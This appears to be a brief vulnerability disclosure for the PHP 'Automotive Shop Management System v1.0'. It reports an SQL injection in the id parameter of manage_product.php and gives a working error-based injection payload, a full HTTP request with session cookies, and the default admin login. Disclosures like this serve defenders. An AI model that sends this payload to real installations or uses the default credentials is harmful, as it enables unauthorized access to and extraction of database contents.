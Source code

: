 # Automotive Shop Management System v1.0 by oretnom23 has SQL injection

BUG_Author: thir3een13

Login account: admin/admin123 (Super Admin account)

vendors: https://www.sourcecodester.com/php/15312/automotive-shop-management-system-phpoop-free-source-code.html

The program is built using the xmapp-php8.1 version

Vulnerability File: /asms/admin/products/manage_product.php?id=

Vulnerability location: /asms/admin/products/manage_product.php?id=, id

dbname =asms_db,length=7

[+] Payload: /asms/admin/products/manage_product.php?id=7%27%20and%20updatexml(1,concat(0x7e,(select%20database()),0x7e),0)--+ // Leak place ---> id

```sql
GET /asms/admin/products/manage_product.php?id=7%27%20and%20updatexml(1,concat(0x7e,(select%20database()),0x7e),0)--+ HTTP/1.1
Host: 192.168.1.88
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:46.0) Gecko/20100101 Firefox/46.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
Cookie: PHPSESSID=0bfse7548hblm5lblclp48r057; dou_member_id=1; dou_member_code=3a2d7d2301afce4cf127
Connection: close
```

![image](https://user-images.githubusercontent.com/54017627/198026687-2f6e974e-04c8-4dcc-a30b-d7e358166b5e.png)
